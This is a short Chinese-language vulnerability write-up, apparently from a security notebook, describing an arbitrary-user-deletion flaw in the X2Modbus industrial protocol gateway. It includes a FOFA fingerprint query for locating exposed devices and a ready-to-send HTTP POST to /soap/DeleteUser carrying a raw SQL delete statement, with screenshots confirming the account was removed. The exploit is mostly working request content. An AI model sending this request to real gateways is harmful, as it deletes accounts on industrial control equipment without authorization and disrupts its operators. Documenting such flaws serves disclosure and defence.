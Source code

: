 # 上海迅饶自动化科技有限公司X2Modbus网关任意用户删除漏洞

# 一、漏洞简介
X2Modbus是上海迅饶自动化科技有限公司开发的一款功能很强大的协议转换网关， 这里的X代表各家不同的通信协议， 2是To的谐音表示转换， Modbus就是最终支持的标准协议是Modbus协议。用户可以根据现场设备的通信协议进行配置，转成标准的Modbus协议。在PC端仿真运行无误后，上传到硬件协议转换网关。上海迅饶自动化科技有限公司X2Modbus网关任意用户删除漏洞

# 二、影响版本
+ X2Modbus

# 三、资产测绘
+ fofa`server="SunFull-Webs" || icon_hash="-1384370370"`
+ 特征

![1710416347834-b54d34ac-c701-4de7-aa01-4e4e7792c936.png](./img/wPHoPD3sv_JhVtmu/1710416347834-b54d34ac-c701-4de7-aa01-4e4e7792c936-219366.png)

# 四、漏洞复现
删除前账号

![1712507909745-a45f3985-9d5c-40e6-939d-c770d21daee8.png](./img/wPHoPD3sv_JhVtmu/1712507909745-a45f3985-9d5c-40e6-939d-c770d21daee8-356690.png)

```java
POST /soap/DeleteUser HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/xml, text/xml, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml; charset=utf-8
X-Requested-With: XMLHttpRequest
Content-Length: 39
Connection: close
Cookie: language=zh-cn; language=zh-cn

delete from userid where username='stc'
```

![1712507935042-e1380807-910e-4d76-b5c7-4e2f0af05c76.png](./img/wPHoPD3sv_JhVtmu/1712507935042-e1380807-910e-4d76-b5c7-4e2f0af05c76-899725.png)

删除后

![1712507955869-61cca64e-db36-4d80-aaed-2f02c6bfd456.png](./img/wPHoPD3sv_JhVtmu/1712507955869-61cca64e-db36-4d80-aaed-2f02c6bfd456-979986.png)



> 更新: 2024-04-16 16:50:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gqtttrccg5d19xuw>